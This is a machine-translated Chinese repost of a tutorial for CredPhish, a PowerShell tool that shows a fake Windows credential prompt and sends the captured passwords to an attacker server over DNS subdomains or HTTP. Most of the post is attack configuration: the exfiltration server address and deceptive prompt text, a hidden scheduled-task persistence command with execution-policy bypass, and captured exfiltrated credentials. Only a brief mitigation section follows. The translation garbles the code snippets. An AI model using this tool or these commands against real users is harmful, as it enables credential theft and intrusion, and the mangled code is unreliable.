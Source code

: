 # CredPhish:一个 PowerShell 脚本，旨在通过 DNS 调用合法的凭据提示和泄漏密码

> 原文：<https://kalilinuxtutorials.com/credphish/>

[![CredPhish : A PowerShell Script Designed To Invoke Legitimate Credential Prompts And Exfiltrate Passwords Over DNS](img/fc8f86d4a8afca8bafff11a6c6223a82.png "CredPhish : A PowerShell Script Designed To Invoke Legitimate Credential Prompts And Exfiltrate Passwords Over DNS")](https://1.bp.blogspot.com/-NyPv93zkN8Y/YQI8-O6SjvI/AAAAAAAAKSo/FxcYoJt4p8YvE7DO1DLOJby4bP0w5MizgCLcBGAsYHQ/s728/Get-Credential%2B%25281%2529.png)

**CredPhish** 是一个 PowerShell 脚本，用于调用凭证提示和泄漏密码。它依靠 CredentialPicker 来收集用户密码、解析 DNS 过滤的 DnsName 以及 Windows Defender 的 ConfigSecurityPolicy.exe 来执行任意 GET 请求。

有关演练，请参见黑山信息安全出版物。

**如何用 PowerShell 费西合唱团用户密码**

欺骗凭据提示是一种有效的权限提升和横向移动技术。在 Windows 环境中，对于 Outlook、VPN 和各种其他身份验证协议，经常会遇到看似随机的密码提示。对手会滥用 Windows 和 PowerShell 内置的功能来调用凭据弹出窗口以获取用户密码。

根据米特 ATT 和 CK 框架的定义:

> “当执行需要额外权限的程序时……操作系统通常会提示用户输入适当的凭证，以授权任务的提升权限。对手可能会模仿常见的操作系统组件，通过 PowerShell 等语言，用看似合法的提示来提示用户输入凭据。”

什么是 CredPhish？

CredPhish 是一个 PowerShell 脚本，用于调用凭据提示和泄漏密码。它依靠 CredentialPicker API 来收集用户密码，PowerShell 的 Resolve-DnsName 用于 DNS 过滤，Windows Defender 的 ConfigSecurityPolicy.exe 用于执行任意 GET 请求。

下面是一个 CredPhish 的例子。请注意，在 Windows 安全提示中提交凭据后，这些凭据会立即传送到攻击者的 DNS 服务器。

![](img/eaffb1d3c202a570c322f93abf945221.png)

默认情况下，CredPhish 将使用 Resolve-DNS name(PowerShell 内置的 DNS 解析程序)来过滤凭据。它会将凭证中的每个字符转换为各自的十六进制值，将转换后的值分成预定义的块，并将这些块放入流行网站的子域中。下面的屏幕截图是十六进制形式的泄漏凭证的示例。请注意 google.com 和 office.com 子域中“tokyoneon”(746 F6 b 796 F6 e 656 F6 e)的十六进制值。

![](img/23ecb8dcc7de12a91dafef67c2b00a2e.png)

在解析 DNS 查询之前，DNS 服务器将剥离十六进制子域，以避免创建大量错误响应。在下面的 Wireshark 截图中，请注意“答案”字段不再包含子域，并成功解析为 Google 的一个 IP 地址。

![](img/110c282ec7bc968ef743ea0d861fbb95.png)

**CredPhish.ps1 配置**

我将 credphish.ps1 设计成一个不需要`Import-Module`的独立脚本，这是一个常见的妥协指标。可配置选项以变量的形式位于 PS1 脚本的顶部，以避免冗长的命令行参数。

第一行是最重要的，因为它定义了泄漏的数据被传送到哪里(即攻击者的 Kali 服务器)。

**# exfil address
$ exfilserver = " 192 . 168 . 56 . 112 "**

接下来，几个变量定义了提示将如何出现在没有怀疑的目标用户面前。`$promptCaption`定义了请求用户凭证的*应用*(例如，“微软办公室”)。而`$promptMessage`通常指定与请求相关联的账户。

**# prompt
$ target user = $ env:username
$ company email = " blackhillsinfosec . com "
$ prompt caption = " Microsoft Office "
$ prompt message = " Connecting to:$ target user @ $ company email "
$ max tries = 1 #调用提示的最大次数
$delayPrompts =提示之间的 2 #秒
$ validate credentials = $ false # interrupt $ max tries 并且如果凭证有效则立即执行**

`$maxTries`变量定义了在目标提交凭证之前提示将出现的次数。为了避免怀疑，`1`是默认值。`$delayPrompts`变量定义了每次提示之间的秒数(如果`$maxTries`大于`1`)。默认禁用的`$validateCredentials`将尝试在提升的上下文中使用`Start-Process`在本地验证提交的凭证。如果启用并验证了凭证，则会忽略`$maxTries`，并将数据立即发送到攻击者的服务器。

**渗出方法**

如上所述，DNS 渗透是用于向攻击者的服务器传送密码的默认方法。`$exfilDomains`列表包括 DNS 查询中使用的各种随机选择的域。`$subdomainLength`变量决定了每个子域的期望长度。

**# dns
#启动卡利语 DNS 服务器:python 3/path/to/cred phish/DNS _ server . py
$ enableDnsExfil = $ true
$ exfilDomains = @(' Microsoft . com '，' google.com '，' office.com '，' live . com ')# DNS exfil 的域
$ random delay = get-random-minimum 5-maximum 20 # DNS 查询之间的延迟
$subdomainLength =子域中最多 6 个字符。必须是 2-60 之间的偶数，否则查询将中断**

要拦截使用 DNS 过滤功能发送的凭据，请在 Kali 中执行 dns_server.py 脚本。按`Ctrl` + `c`终止 DNS 服务器，它会以明文的形式重新构建拦截的凭证。

![](img/eaffb1d3c202a570c322f93abf945221.png)

CredPhish 内置的另一种渗透方法是 HTTP 请求方法。它利用 Windows Defender 中包含的二进制文件“ConfigSecurityPolicy.exe”向攻击者的服务器提供凭据。将`$enableHttpExfil`变量设置为`$true`以启用它。

**# http
#启动 kali 中的 http 服务器:python 3-m http . server 80
$ enablehttpefil = $ false
$ ConfigSecurityPolicy = " C:\ Prog*Files \ Win*Defender \ ConfigSecurityPolicy . exe "**

要拦截用`ConfigSecurityPolicy.exe`发送的凭证，在 Kali 中启动一个简单的 HTTP 服务器，在日志中捕获它们。

![](img/7bfdc3bf70356331e188f024ed03ef0d.png)

在网络上，过滤后的凭据将如下所示。

**GET/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D HTTP/1.1
接受: */*
UA-CPU: AMD64
接受-编码:gzip，deflate
用户代理:Mozilla/4.0(兼容；MSIE 7.0Windows NT 10.0Win64x64 三叉戟/7.0；. NET4.0C. NET4.0E)
主机:192.168.56.104
连接:保活**

由于凭证在传输之前是 URL 编码的，所以使用 Burp 的解码器模块来观察数据，或者使用 Python 的`urllib`库通过命令行进行 URL 解码。

![](img/ad8f80cb7cf83fdb5a4d3494bea700ac.png)

**>>>from URL lib . parse import un quote
>>>un quote("/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D ")
'/DESKTOP-s 4d AAF 0[tokyoneon:#！extr 3m 3 ly _&ecuRe-P @ ssw % rD #]'**

**CredPhish.ps1 执行**

要快速测试 CredPhish，将`credphish.ps1`移动到目标 Windows 10 机器上，用 PowerShell 执行。

![](img/df1d98503d9a54ea01991171c5bcf824.png)

持久的执行方法可能涉及任务计划程序，它是 Windows 的一个组件，提供了按预定义的时间间隔计划脚本执行的能力。下面的`schtasks`示例将每 2 分钟执行一次`credphish.ps1`。

**create/sc minute/mo 2/TN " cred phish "/tr " powershell-EP bypass-window style Hidden C:\ path \ to \ cred phish \ cred phish . PS1 "**

**缓解措施&检测**

源自 Invoke-LoginPrompt、CredsLeaker 和 Stitch 等项目的 CredPhish 并不是密码钓鱼的灵丹妙药。总有改进的空间，因为这种攻击通常具有很强的针对性和用户特定性。一种更激进的方法可能涉及用 Cobalt Strike 欺骗整个 Windows 10 锁屏，并以这种方式捕获凭据。

这些类型的攻击技术不容易通过预防性控制来缓解，因为它们滥用系统功能。米特 ATT 和 CK 框架建议:

*   对用户进行培训，以提高对潜在恶意事件和对话框(例如，提示输入凭据的 Office 文档)的认识和怀疑。
*   监控进程执行，查看异常程序以及提示用户输入凭据的命令和脚本解释程序的恶意实例。
*   检查和审查输入提示中的非法性指示，如非传统的横幅、文本、时间和/或来源。

[**Download**](https://github.com/tokyoneon/CredPhish)